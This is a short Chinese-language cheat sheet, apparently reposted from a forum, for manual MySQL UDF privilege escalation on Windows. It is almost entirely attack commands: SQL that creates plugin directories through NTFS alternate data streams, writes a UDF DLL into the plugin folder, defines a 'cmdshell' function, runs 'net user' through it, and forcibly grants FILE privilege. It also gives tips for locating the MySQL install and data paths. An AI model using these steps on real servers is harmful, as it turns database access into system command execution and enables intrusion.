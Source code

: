 # UDF手工提权辅助

> 原文：[https://www.zhihuifly.com/t/topic/3527](https://www.zhihuifly.com/t/topic/3527)

# UDF 手工提权辅助：

```
select @@basedir;  #查看mysql安装目录
select 'It is dll' into dumpfile 'C:\。。lib::';  #利用NTFS ADS创建lib目录
select 'It is dll' into dumpfile 'C:\。。lib\plugin::';  #利用NTFS ADS创建plugin目录
select 0xUDFcode into dumpfile 'C:\phpstu\MySQL\lib\plugin\mstlab.dll';  #导出udfcode，注意修改udfcode
create function cmdshell returns string soname 'mstlab.dll';   #用udf创建cmd函数，shell,sys_exec,sys_eval
select shell('cmd','net user');     #执行cmd命令
show variables like '%plugin%';     #查看plugin路径 
```

## 小技巧：

```
1.HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MySQL 注册表中ImagePath的值为mysql安装目录
2.my.ini中datadir的值是数据存放目录
3.UPDATE user set File_priv ='Y';  flush privileges; 强制加file权限 
```